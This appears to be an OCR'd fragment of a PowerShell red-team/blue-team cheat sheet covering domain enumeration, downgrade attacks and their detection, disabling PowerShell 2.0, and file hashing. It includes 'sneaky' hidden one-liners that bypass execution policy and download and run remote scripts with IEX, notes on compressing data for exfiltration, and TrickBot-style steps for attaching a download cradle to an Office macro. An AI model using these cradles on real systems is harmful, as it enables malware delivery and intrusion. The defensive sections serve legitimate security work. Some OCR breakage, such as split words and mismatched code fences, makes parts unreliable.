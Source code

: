 ```

Enumerate domain machines of the current/specified domain where specific
users are logged in

```
Find‐DomainUserLocation ‐Domain <DomainName> | Select‐Object UserName,
SessionFromName
```

## Sneaky PowerShell Commands

```powershell.exe -w hidden -nop -ep bypass -c "IEX ((new-object net.webclient).downloadstring('http://[domainname|IP]:[port]/[file] '))"```

```powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetw orkCredentials;iwr('http://webserver/payload.ps1')|iex"```

PowerShell Downgrade Attack

```
PowerShell –Version 2 –Command <…>
```

Detecting PowerShell Downgrade Attacks

```
Get-WinEvent -LogName "Windows PowerShell" |
    Where-Object Id -eq 400 |
    Foreach-Object {
        $version = [Version] (
            $_.Message -replace '(?s).*EngineVersion=([\d\.]+)*.*','$1')
        if($version -lt ([Version] "5.0")) { $_ }
}
```

Disabling PowerShell Version 2

```
# Query the current status of PowerShell 2.0 components:
Get-WindowsOptionalFeature -Online -FeatureName "*PowerShellV2*"

# Disable PowerShell 2.0:
Disable-WindowsOptionalFeature -Online -FeatureName MicrosoftWindowsPowerShellV2
Disable-WindowsOptionalFeature -Online -FeatureName MicrosoftWindowsPowerShellV2Root
```

PowerShell Data Compression for Exfiltration

```
PS > Compress-Archive -Path <files to zip> -CompressionLevel
Optimal -DestinationPath <output path>
```

PowerShell File Hashing for Blue Teamers

```
Get-ChildItem -Path D:\Potentially_Malicious\Folder\ | Get-FileHash | Export-Csv -Path D:\PowerShell\FilesHashes_For_VirusTotal.csv -NoTypeInformation
```

## TrickBot PowerShell Download TTP

1. Insert base64 string for malicious web server
2. Select filename for output in %tmp% directory
3. Attach to Office macro
```

[VICTIM]: PS C:\Users\Victim\Documents>